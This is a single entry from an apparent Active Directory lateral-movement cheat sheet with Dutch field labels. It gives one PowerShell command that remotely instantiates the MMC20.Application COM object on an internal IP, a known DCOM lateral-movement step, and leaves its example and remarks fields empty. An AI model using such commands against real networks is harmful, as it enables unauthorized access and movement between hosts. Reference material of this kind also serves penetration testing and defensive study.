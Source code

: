 # 24. AD Lateral Movement — Entry 38

## Categorie

DCOM

## Commando

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```

## Omschrijving

Remotely instantiating the MMC application object

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

